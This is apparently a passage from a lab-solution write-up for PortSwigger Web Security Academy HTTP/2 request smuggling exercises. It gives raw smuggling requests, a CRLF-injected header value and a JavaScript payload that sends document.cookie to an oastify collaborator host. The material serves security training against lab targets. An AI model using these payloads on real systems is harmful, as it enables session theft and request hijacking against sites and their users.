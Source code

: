 ### HTTP/2 Techniques
1. <a name="h2-cl-req-smuggling">H2.CL Request Smuggling</a>.([original lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling))
   > PLEASE ENSURE THIS BEFORE EXPLOITING THIS VULNERABILITY !!!
   > Try to send a request to `/resources` with the `HTTP/1.1` protocol. Observe, you get the `302` redirect to `https://YOUR-LAB-ID.web-security-academy.net/resources/`. Then continue executing the following payload and observe you get a `302` redirect to your **arbitrary host**.
   - Payload in **Exploit Server**:
     ```Javascript
     location="https://bapjk0f4usmytwo527764bkhl8rzfr3g.oastify.com/?c="+document.cookie;
     ```
     
   - Payload in **Repeater**
     ```HTTP
     POST / HTTP/2
     Host: 0a7b005d04382a5d80da3f6d00510058.web-security-academy.net
     Content-Length: 0

     GET /resources HTTP/1.1
     Host: exploit-0a8400ad04932a8380c93eda017c0060.exploit-server.net
     Content-Length: 5

     x=1
     ```
   
2. <a name="h2-req-smugg-crlf">HTTP/2 request smuggling via CRLF injection</a>. ([original lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection))

  - Inject the following arbitrary **Request Header** in **Inspector**
     **Name:**
      > foo
      
     **Value:**
      > bar\r\n
      > Transfer-Encoding: chunked
      
  - Switch to the `HTTP/2` protocol in the inspector request attributes
  - Enable the Allow `HTTP/2 ALPN override` option in the sending option.
  - Payload in Repeater for identifying to ensure every **second** request you send receives a `404` response
    ```HTTP
    0

    SMUGGLED
    ```
    
  - Payload in Repeater for identifying
    ```HTTP
    0
    POST / HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Cookie: session=SESSION-COOKIE
    Content-Length: 928
